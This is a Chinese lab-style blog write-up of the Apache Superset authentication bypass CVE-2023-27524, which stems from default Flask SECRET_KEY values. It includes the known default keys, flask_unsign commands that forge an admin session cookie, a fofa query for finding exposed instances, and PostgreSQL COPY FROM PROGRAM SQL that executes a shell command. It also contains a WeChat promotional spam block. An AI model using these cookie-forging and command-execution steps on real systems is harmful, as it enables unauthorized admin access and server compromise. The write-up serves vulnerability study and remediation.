




# Apache Superset 身份认证绕过漏洞（CVE-2023-27524） - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17493495.html`](https://www.cnblogs.com/hetianlab/p/17493495.html)

## 漏洞简介


Apache Superset 是一个开源的数据可视化和数据探测平台，它基于 Python 构建，使用了一些类似于 Django 和 Flask 的 Python web 框架。提供了一个用户友好的界面，可以轻松地创建和共享仪表板、查询和可视化数据，也可以集成到其他应用程序中。由于用户在默认安装过程中，未对 SECRET_KEY 的默认值进行更改，未经身份验证的攻击者通过伪造管理员身份进行访问后台，并通过后台原本数据库执行功能实现命令执行操作。‍

## 环境搭建

可以通过 fofa 来搜索相关网站

"Apache Superset"

​

这里我们通过 docker 来在本地搭建环境

​

```
git clone https://github.com/apache/superset.git
cd superset
git checkout 2.0.0
TAG=2.0.0 docker-compose -f docker-compose-non-dev.yml pull
TAG=2.0.0 docker-compose -f docker-compose-non-dev.yml up
```

官网提供的方法 并没有搭建成功，还是直接在 docker 仓库中查找

[`hub.docker.com/r/apache/superset/tags?page=1&ordering=last_updated&name=2.0.0`](https://hub.docker.com/r/apache/superset/tags?page=1&ordering=last_updated&name=2.0.0)

​

```
docker pull apache/superset:2.0.0
docker exec -it superset superset fab create-admin --username admin --firstname Superset  --lastname Admin --email admin@superset.com --password admin
docker exec -it superset superset db upgrade
docker exec -it superset superset load_examples
docker exec -it superset superset init
```

## ​漏洞复现

利用脚本检测是否存在漏洞并生成相对应的 cookie

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）


访问主页抓取数据包


将生成的 session 替换原本的 session

​

成功登录


接下来就是想办法 getshell 网络上的文章上是通过后台数据库执行语句来获取权限。

经过复现分析，发现存在的问题还比较多，首先是默认情况下执行语句仅仅支持 SELECT ，需要修改数据库的权限允许其他的一些语句（but 一些版本上是没有对数据库的操作权限的），然后就是获取的权限，本质上也只是获取了数据库的执行权限，数据库有可能并不与 superset 在同一服务器上，再有就是需要数据库本身也需要存在漏洞才可以，我这里选取了 （CVE-2019-9193）PostgreSQL 高权限命令执行漏洞来复现漏洞。

​

​

​

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

​

## 漏洞分析

感觉这个漏洞有点像前段时间爆出来的 nacos 身份认证绕过漏洞 存在默认的密钥

```
SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]
```

Superset 是用 Python 编写的，基于 Flask Web 框架。基于 Flask 的应用程序的常见做法是使用加密签名的会话 cookie 进行用户状态管理。当用户登录时，Web 应用程序将包含用户标识符的会话 cookie 发送回最终用户的浏览器。Web 应用程序使用 SECERT_KEY 对 cookie 进行签名，该值应该时随机生成的，通常存储在本地配置文件中，对于每个 Web 请求，浏览器都会将已签名的会话 cookie 发送回应用程序，然后应用程序验证 cookie 上的签名以处理请求之前重新验证用户。

整段描述下面我感觉跟 JWT 的相关验证方式差不太多，我们具体来操作看看。



首先就是请求的时候我们可以看到 cookie 值 可以解码成功，通过爆破（当然我们这里是已经已知这个 key 值），伪造生成用户的 cookie，替换数据包中的 cookie 值，就成功登录成功，之后再次请求的时候，发现我们添加的字段已经被保存在 session 值中

```
>>> from flask_unsign import session
>>> session.decode("eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiOGUzOTdiZTQ2ZjVlZjJiYTc1NjI4MWQxODE2NTAyMWEzMzcxYjI3OCIsImxvY2FsZSI6ImVuIn0.ZJAEeQ.wVfrGzupbWdw4R1OlzUwUqhGMMY")
{'_fresh': False, 'csrf_token': '8e397be46f5ef2ba756281d18165021a3371b278', 'locale': 'en'}
>>> session.sign({'_user_id': 1, 'user_id': 1},'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET')
'eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZJAFNg.oWyP7v-1l0qOHFOMjSd-cFiVQLY'
>>> session.decode(".eJxFzEEOhCAQBMC_9JmDwMZBPkOUaaKRaALuabN_15sPqPohlca-Ipa5dhqkb2dLmyJag9xbSde580CEjoHiQlYOlt4VDVMe3CjTRxYv3i_qGEQsDOqZ58rHPNDgHf83roYh1w.ZJAFVw.IwmWyTU1bvoY2nhlFYdmwXNNtTM")
{'_fresh': False, '_user_id': 1, 'csrf_token': 'd68e728cde01e32fd89c0267947b3733bd2e8771', 'locale': 'en', 'user_id': 1}
```

​

## 漏洞修复

拒绝在非调试环境中使用默认密码启动

​

​

‍**更多网安技能的在线实操练习，[请点击这里>>](https://www.hetianlab.com/)**